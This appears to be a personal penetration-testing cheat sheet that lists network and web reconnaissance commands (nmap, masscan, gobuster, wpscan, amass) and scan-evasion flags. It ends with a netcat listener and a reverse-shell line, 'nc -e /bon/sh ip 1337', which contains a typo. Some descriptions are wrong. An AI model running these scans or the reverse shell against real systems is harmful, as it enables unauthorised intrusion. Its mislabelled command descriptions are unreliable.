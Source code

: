 All commands and links i need to sort.  


Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  

nmap -sn 192.168.0.1/24 - scans network for all hosts  
nmap -sV <ip> - does a service scan on a target ip  
nmap --script vuln <ip> - does a quick vulnerability scan on a host  
namp -A <ip> - does a deep scan for everything above.  
other options -f (fragment, make it harder for detection), --source 53 (make it appear as if coming from dns port),  

masscan 192.168.0.1/24 -p0-65535 --rate=10000 - scans network for all hosts, but fast  
masscan 192.168.0.1/24 -p23 --rate=1000 - does a quick scan for all telnet open  
other options --randomize-hosts (dont scan in order)  

curl -u http://website - display website header and info  

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  

sublist3r -d http://website - enumerates subdirectories  

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

nc -lvp 1337  
nc -e /bon/sh ip 1337   

